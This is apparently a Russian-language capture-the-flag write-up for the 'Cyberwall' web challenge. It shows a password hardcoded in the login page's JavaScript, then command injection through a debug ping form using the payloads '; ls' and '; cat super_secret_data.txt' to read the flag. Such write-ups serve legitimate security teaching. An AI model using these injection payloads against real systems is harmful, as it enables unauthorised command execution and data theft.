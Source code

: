 # Cyberwall (100 points, 389 solves)

> We had problems with hackers, but now we got a [enterprise firewall system](http://chal.cybersecurityrumble.de:3812/)
> build by a leading security company.

Переходим по ссылке, и нас встречает страница с логином. Просмотр исходного кода открывает интересную информацию:

```html
        <script type="text/javascript">
            function checkPw() {
              var pass = document.getElementsByName('passwd')[0].value;
              if (pass != "rootpw1337") {
                alert("This Password is invalid!");
                return false;
              }
              window.location.replace("management.html");
            }
```

Ага, значит пароль - `rootpw1337`. Вводим его и нас выводит на следующую страницу:

![](https://i.imgur.com/ZWlvUn4.png)

Большинство страниц в меню бесполезны, а вот Debugging имеет форму для ввода: 

![](https://miro.medium.com/max/2400/1*bjuqLtjmlPsJC6q9TV4oxQ.png)

Что же, попробуем пингануть `ya.ru`. Вывод идентичен тому, что мы получаем в терминале при использовании команды `ping`.
Это наводит на мысль, что можно попробовать и другие команды. Например, строка `; ls` вывела список файлов:

```
requirements.txt
static
super_secret_data.txt
templates
webapp.py
wsgi.py
```

Теперь попробуем `; cat super_secret_data.txt` и получим флаг:

```
CSR{oh_damnit_should_have_banned_curl_https://news.ycombinator.com/item?id=19507225}
```